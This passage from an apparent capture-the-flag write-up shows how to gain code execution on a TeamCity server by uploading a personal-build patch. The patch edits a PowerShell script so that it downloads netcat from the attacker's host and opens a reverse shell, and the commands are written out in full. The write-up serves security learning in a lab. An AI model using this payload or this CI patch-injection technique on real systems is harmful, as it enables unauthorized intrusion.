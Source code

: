 The "run as personal build" option is documented
[here](https://www.jetbrains.com/help/teamcity/2022.10/personal-build.md):

> A *personal build* is a build-out of the common build sequence which
> typically uses the changes not yet committed into the version control.
> Personal builds are usually initiated from one of the [supported
> IDEs](https://www.jetbrains.com/help/teamcity/2022.10/supported-platforms-and-environments.md#Remote+Run+and+Pre-tested+Commit)
> via the [Remote
> Run](https://www.jetbrains.com/help/teamcity/2022.10/remote-run.md)
> procedure. You can also upload a patch with changes directly to the
> server, as described
> [below](https://www.jetbrains.com/help/teamcity/2022.10/personal-build.md#Direct+Patch+Upload).

#### RCE

I don't have write access to the SMB share, so I can't change the repo
contents there. However, I can use the personal build option to upload a
diff file to effectively make changes to the repo that way.

I'll create a dummy repo and add `hello_world.ps1`:



    oxdf@hacky$ mkdir ~/repo
    oxdf@hacky$ cp hello_world.ps1 ~/repo/
    oxdf@hacky$ cd ~/repo/
    oxdf@hacky$ git init
    Initialized empty Git repository in /home/oxdf/repo/.git/
    oxdf@hacky$ git add hello_world.ps1 
    oxdf@hacky$ git commit -m "as on coder"
    [main (root-commit) 42bd623] as on coder
     1 file changed, 2 insertions(+)
     create mode 100755 hello_world.ps1



I'll update `hello_world.ps1` to include commands to fetch netcat from
my server and return a reverse shell:



    #Simple repo test for Teamcity pipeline
    write-host "Hello, World!"

    iwr http://10.10.14.6/nc64.exe -outfile \ProgramData\nc64.exe
    \ProgramData\nc64.exe -e powershell 10.10.14.6 443



Running `git diff` shows the diff output for this vs what's already
committed:



    oxdf@hacky$ git diff
    diff --git a/hello_world.ps1 b/hello_world.ps1
    index 09724d2..6cd6d20 100755
    --- a/hello_world.ps1
    +++ b/hello_world.ps1
    @@ -1,2 +1,5 @@
     #Simple repo test for Teamcity pipeline
     write-host "Hello, World!"
    +
    +iwr http://10.10.14.6/nc64.exe -outfile \ProgramData\nc64.exe
    +\ProgramData\nc64.exe -e powershell 10.10.14.6 443
    oxdf@hacky$ git diff > shell.diff

